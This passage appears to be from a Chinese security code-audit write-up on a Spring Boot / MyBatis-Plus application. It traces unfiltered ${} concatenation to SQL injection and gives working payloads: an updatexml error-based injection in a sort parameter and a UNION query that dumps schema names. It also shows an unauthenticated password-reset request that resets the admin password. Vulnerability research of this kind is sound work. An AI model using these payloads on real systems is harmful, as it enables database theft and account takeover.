 ```php
page=1&limit=10&sort=id+and+updatexml(1,concat(0x7e,database()),0)#
```

![image-20240403034431648](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-c2ace7485898ef14dac13bb3806ddf0cd7f58b96.png)

### 其他SQL注入分析

从Mybatis-puls的简介中可以看到：**Mybatis-Plus是一个Mybatis（opens new window）的增强工具，在Mybatis的基础上只做增强不做改变，为简化开发。**因此mybatis中实现sql的方式在Mybatis-puls同样适用。

`#{}`预处理、`${}`拼接就不用多说了。直接实现sql的xml搜索`${`

![image-20240403040500351](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-e4fcc43894f16f19287dc08ee39c4234454a99c8.png)

可以发现多出使用拼接，那直接选择一个分析一下

![image-20240404211942229](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-4e172dad4506fc7ffb8836fed3021416ccf6553b.png)

一路向上跟进  
`com.service.impl.CommonServiceImpl#remindCount`

![image-20240404212053916](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-74fed281e8c9932ea338b26081d04dbd1d4ff879.png)

最终跟到`com.controller.CommonController#remindCount`，发现全程也无过滤

![image-20240404212127974](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-18222ea664e37973824a09b9edea1a605d8fa6d7.png)

根据接口，构造，打个poc

```php
users union select group_concat(SCHEMA_NAME) from information_schema.SCHEMATA
```

![image-20240404211110262](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-7765ca1537bf6085a47fe41097f3ac5ecf3a5846.png)

### SQL注入总结

在对动态表名、orderby这种需要拼接的场景下，在代码实现时一定要仔细！总体来说mybatispuls框架中SQL注入漏洞挖掘相较于mybatis中更为困难，需要我们更加有耐心！

0x03 任意用户密码重置
-------------

这是在无意间发现的一个功能，感觉是作者设计的一个功能。但我没太看懂作者的意图，重置密码的接口可以不进行权限认证就使用！

`@IgnoreAuth`这个注解的作用是不进行权限认证，之后就是通过用户名来查询用户，然后修改用户的密码为`123456`

![image-20240404232632119](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-7cf2f6a7bec9da3a954dfcec705011671c3239f2.png)

```php
GET /springboot57n6g/users/resetPass?username=admin HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
sec-ch-ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Site: same-origin
Sec-Fetch-Dest: empty
Referer: http://localhost:8081/
Sec-Fetch-Mode: cors
Accept-Language: zh-CN,zh;q=0.9
```
